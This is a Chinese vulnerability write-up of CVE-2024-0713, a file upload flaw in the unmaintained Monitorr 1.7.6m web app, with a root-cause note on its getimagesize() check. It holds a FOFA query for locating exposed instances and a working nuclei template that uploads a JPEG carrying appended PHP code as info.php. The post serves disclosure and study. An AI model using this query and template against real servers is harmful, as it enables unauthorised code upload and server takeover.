






# CVE-2024-0713 Monitorr 文件上传漏洞分析 - 先知社区

CVE-2024-0713 Monitorr 文件上传漏洞分析

- - -

# 0x00 概述

Monitorr 是一个自托管的 PHP 网络应用，可以监控本地和远程网络服务、网站和应用的状态。经过分析，该系统存在文件上传漏洞，攻击者可以通过该漏洞上传 webshell 至目标系统从而获取目标系统权限。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2024-0713 |     |
| 漏洞厂商 | Monitorr |     |
| 厂商官网 | [https://github.com/Monitorr/Monitorr](https://github.com/Monitorr/Monitorr) |     |
| 影响对象类型 | Web 应用 |     |
| 影响产品 | Monitorr |     |
| 影响版本 | Monitorr 1.7.6m |     |
|     |     |

# 0x01 漏洞影响

影响版本 Monitorr 1.7.6m

# 0x02 漏洞环境

该产品为开源产品：[https://github.com/Monitorr/Monitorr](https://github.com/Monitorr/Monitorr)

fofa 查询语句为：

```plain
body="assets/php/timestamp.php"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152643-16ba76f0-bb53-1.png)

# 0x03 漏洞验证和利用

先随便找一个图片，这里用 python 生成：

```plain
from PIL import Image

img = Image.new('RGB', (1, 1), color = (0, 0, 0))
img.save('small.jpg', 'JPEG')
```

然后在图片的末尾添加 webshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152653-1ccee79c-bb53-1.png)

使用 nuclei 进行测试：

```plain
id: poc
info:
  name: 直接上传文件
  author: xxx
  severity: high
  description: 产品已经停止更新，影响全版本，直接文件上传
http:
- raw:
  - |
    POST /assets/php/upload.php HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_4)
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Length: 1194

    ------WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Disposition: form-data; name="fileToUpload"; filename="info.php"
    Content-Type: image/jpeg

    {{base64_decode("/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSEw8UHRofHh0aHBwgJC4nICIsIxwcKDcpLDAxNDQ0Hyc5PTgyPC4zNDL/2wBDAQkJCQwLDBgNDRgyIRwhMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjL/wAARCAABAAEDASIAAhEBAxEB/8QAHwAAAQUBAQEBAQEAAAAAAAAAAAECAwQFBgcICQoL/8QAtRAAAgEDAwIEAwUFBAQAAAF9AQIDAAQRBRIhMUEGE1FhByJxFDKBkaEII0KxwRVS0fAkM2JyggkKFhcYGRolJicoKSo0NTY3ODk6Q0RFRkdISUpTVFVWV1hZWmNkZWZnaGlqc3R1dnd4eXqDhIWGh4iJipKTlJWWl5iZmqKjpKWmp6ipqrKztLW2t7i5usLDxMXGx8jJytLT1NXW19jZ2uHi4+Tl5ufo6erx8vP09fb3+Pn6/8QAHwEAAwEBAQEBAQEBAQAAAAAAAAECAwQFBgcICQoL/8QAtREAAgECBAQDBAcFBAQAAQJ3AAECAxEEBSExBhJBUQdhcRMiMoEIFEKRobHBCSMzUvAVYnLRChYkNOEl8RcYGRomJygpKjU2Nzg5OkNERUZHSElKU1RVVldYWVpjZGVmZ2hpanN0dXZ3eHl6goOEhYaHiImKkpOUlZaXmJmaoqOkpaanqKmqsrO0tba3uLm6wsPExcbHyMnK0tPU1dbX2Nna4uPk5ebn6Onq8vP09fb3+Pn6/9oADAMBAAIRAxEAPwD5/ooooA//2Tw/PXBocGluZm8oKTs/Pg==")}}
    ------WebKitFormBoundaryMmx988TUuintqO4Q--
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: body
    words:
    - usrimg/info.php
    condition: or
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152704-231a0a14-bb53-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152710-272e178a-bb53-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152717-2b64c592-bb53-1.png)

# 0x04 漏洞分析

漏洞的位置在 `assets\php\upload.php` ，直接就是文件上传，唯一的检查是调用 `getimagesize()` 判断图片是否满足格式：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152725-2faee24a-bb53-1.png)

# 0x05 漏洞修复

该产品已经停止更新
